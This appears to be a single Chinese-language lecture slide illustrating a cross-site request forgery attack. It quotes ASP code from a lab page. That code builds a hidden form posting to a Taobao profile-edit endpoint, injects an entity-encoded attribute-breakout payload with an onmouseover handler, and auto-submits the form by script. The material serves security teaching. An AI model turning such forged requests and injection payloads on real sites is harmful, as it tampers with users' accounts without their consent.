

# 基于CSRF的攻击-实例
http://xeye.us/lab/x_taobao_csrf.asp的部分代码如下：
<%
s = "<form method='post' action='http://member1.taobao.com/member/edit_user_info.jhtml'>“
……
s = s+"<input type='text' style='display:none!important;display:block;width=0;height=0' value=' &#x706b;&#x661f;&#x0022; onmouseover=&#x22;alert(/hi/.source)' name='_fmm.edi._0.a'/>“
……
s = s+"</form>"
s = s+"<script>document.forms[0].submit();</script>"
Response.write(s)
%>